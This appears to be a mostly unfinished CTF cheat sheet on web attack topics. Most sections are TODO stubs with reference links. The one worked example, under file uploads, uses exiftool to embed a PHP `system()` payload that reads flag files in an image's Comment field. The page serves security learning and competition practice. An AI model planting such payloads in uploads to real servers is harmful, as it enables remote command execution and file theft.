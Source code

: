 # Web

Web challenges can range a lot. This page aims to cover many common topics for both client and server challenges.

## Client-side

### Cross-Site Scripting (XSS)

TODO

This section only covered some of the basics of XSS; techniques from the below sections can be used in tandem with this information to create solutions for more complex environments.

#### XSS Sanitization

TODO: DOMpurify
TODO: native browser APIs

### JavaScript Utilities

TODO
TODO: fetch and XHR

### Content Security Policy (CSP)

#### JSONP Bypasses

TODO

#### Script `src` Directory Bypasses

TODO

### DOM Clobbering

#### The Basics

TODO

Excellent resources (with many good examples) on this topic include:

* [Postcards from the post-XSS world](http://lcamtuf.coredump.cx/postxss/)
* [Clobbering the clobbered - Advanced DOM Clobbering](https://medium.com/@terjanq/dom-clobbering-techniques-8443547ebe94)
* [The Spanner - DOM Clobbering](http://www.thespanner.co.uk/2013/05/16/dom-clobbering/)

#### Generic HTML Tag Primitives

TODO

#### Chromium-based Browser HTML Tag Primitives

TODO

### Open Redirects

TODO

### Dangling Markup Exfiltration

TODO: http://lcamtuf.coredump.cx/postxss/

### CSS Exfiltration

TODO

## Server-side

TODO

### File Uploads

### Crafting Custom Images

Image manipulation on the command-line makes crafting payloads a little bit easier:
```sh
# create an empty image
convert -size 32x32 xc:white empty.jpg

# add a comment to an image
exiftool -Comment $'<?php system("cat fl* /fl* /home/*/fl*"); ?>' empty.jpg
```

### Nginx Knowledge

TODO: well-known path bypass

### Apache Knowledge

TODO

### PHP Tips and Tricks

TODO: https://paste.q3k.org/paste/mp0iN5mw#xy+cOL+ON0sWRaJ7p1NZAFkcDTM1BKkYXaq9vZthxK0
TODO: https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html

### HTTP Parameter Pollution

TODO
TODO: PHP usually gives preference to the last occurrence
TODO: Flask ImmutableDict gets last occurence of parameter
TODO: Django param dict? will get first occurence of parameter
TODO: express.js gives array of all provided values
TODO: differences between WAF and web app parsing can lead to bypass
TODO: payloads can be built if parameter values are concatenated

### XXE

TODO: trying application/xml for API endpoints

TODO: linux/windows general gagdets
TODO: https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/
TODO: leaking file contents from errors that report file name (https://www.youtube.com/watch?v=0fdpFQXWVu4)
